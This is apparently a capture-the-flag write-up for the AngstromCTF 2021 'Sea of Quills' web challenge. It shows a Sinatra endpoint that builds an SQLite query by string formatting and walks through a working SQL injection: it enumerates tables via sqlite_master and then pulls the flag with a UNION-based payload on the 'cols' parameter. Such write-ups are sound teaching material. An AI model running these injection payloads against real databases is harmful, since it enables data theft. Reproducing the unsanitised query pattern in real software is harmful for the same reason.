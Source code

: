 ```ruby

	@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])

	p @row
	erb :specific
end
```
We're talking about an webapp written in ruby using sinatra. The interesting stuff happens in `/quills`. As you can see, the application uses a simple `SQLite` database to query for some sort of _Sea quills_. The inputs are `cols`, `lim` and `off`, all of which form the following sql query:
```sql
select {cols} from quills limit {lim} offset {offset}
```
We can certainly control all three of the inputs, with some limitations though.
1. `cols` cannot contain word in `["-", "/", ";", "'", "\""]`
2. `lim` and `off` should <u>apparently</u> be numbers. (Why apparently ? See [part 2](#sea-of-quills-2))

At this point, let's try some SQLi injections to see if there's something hidden in the database.
Let's see what's in `sql_master`, maybe some hidden tables ? 
![angstrom_ctf](/assets/img/AngstromCTF_2021/web_2.jpeg)
```html
<ul class="list pl0">
				
    <img src="1" class="w3 h3">
    <li class="pb5 pl3"> <ul><li></li></ul></li><br />
    
    <img src="flagtable" class="w3 h3">
    <li class="pb5 pl3"> <ul><li></li></ul></li><br />
    
    <img src="quills" class="w3 h3">
    <li class="pb5 pl3"> <ul><li></li></ul></li><br />
    
</ul>
```
Bingo, we have a table named `flagtable`. I wonder what's in there.
Let's craft this payload `limit = 3`, `offset = 0`, `cols = * from flagtable union select 1`.
```html
<ul class="list pl0">
				
    <img src="1" class="w3 h3">
    <li class="pb5 pl3"> <ul><li></li></ul></li><br />
    
    <img src="actf{REDACTED}" class="w3 h3">
    <li class="pb5 pl3"> <ul><li></li></ul></li><br />
    
</ul>
```
PS: Why `* from flagtable union select 1` ? Because we know that the `quills` table has 3 columns and the `flagtable` table has 1 column hence the only way to make `union select` work is by joining together the same number of columns of both the tables. All of this because I'm lazy enough to not dump the column names of `flagtable` so by using `*` on it I have to try `union select 1, 2, 3 ...` until I get the right result.
